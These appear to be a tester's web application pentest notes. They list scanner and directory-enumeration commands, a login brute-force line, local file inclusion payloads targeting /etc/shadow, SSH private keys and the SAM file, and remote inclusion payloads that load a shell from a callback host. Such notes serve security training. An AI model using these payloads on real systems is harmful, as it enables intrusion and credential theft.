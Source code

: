 General Notes


## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!


## Web App Scanners

Nikto: 

- nikto --url <domain>

Wpscan:

- wpscan --url <domain>
- wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
- wpscan --url <domain> --enumerate u (Usernames)
- wpscan --url <domain> --enumerate v

Web Tools for Directory Scanning: 

Dirb: 

- dirb <domain>
- dirb <domain> <wordlist>

Gobuster: 

- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file>
- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox (Custom Agent)
- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html
- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt
- gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'

Wfuzz:

- wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
- wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
- wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)

- wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ (Fuzzing Cookies)

Dirsearch: 

- dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan


## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa

Windows:

Windows:
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM



## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241